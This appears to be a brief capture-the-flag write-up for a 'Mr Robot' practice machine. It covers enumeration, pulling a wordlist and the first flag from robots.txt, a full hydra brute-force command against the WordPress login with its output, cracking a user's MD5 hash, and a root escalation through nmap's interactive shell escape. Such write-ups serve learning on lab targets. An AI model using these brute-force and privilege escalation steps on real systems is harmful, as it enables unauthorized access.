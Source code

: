 start with nmap scan.


http is open on port 80.
https Is open on port 443

***
web page.

fuff the page.

/admin found

in robots.txt we get two files.

```
fsocity.dic
key-1-of-3.txt

```

fsocity.dic is may be wordlist and we have to bruteforce the pw andusername.


in key-1-of-3.txt found first key : 073403c8a58a1f80d943455fb30724b9


***

wordpress site found while visiting : http://10.10.52.237/admin/login.html

it has login page on http://10.10.52.237/wp-login.php

lets use the fsocity.dic for bruteforcing creds. use wpscan to bruteforce.

Using hydra we get username : Elliot

```
hydra -L fsocity.dic -p test $ip https-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.52.237%2Fwp-admin%2F&testcookie=1:Invalid username."
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-20 03:26:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-forms://10.10.52.237:443/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.52.237%2Fwp-admin%2F&testcookie=1:Invalid username.
[443][http-post-form] host: 10.10.52.237   login: Elliot   password: test


```

password : ER28-0652

got rever shell.

in robot uses home directory found a file. `password.raw-md5` which has md5 hash password of user `robot`

`robot:c3fcd3d76192e4007dfb496cca67e13b`

lets crack the passwrod.

`robot:abcdefghijklmnopqrstuvwxyz`


***

privs : suid bit set to /usr/local/bin/nmap


```
nmap --interactive
nmap> !sh

```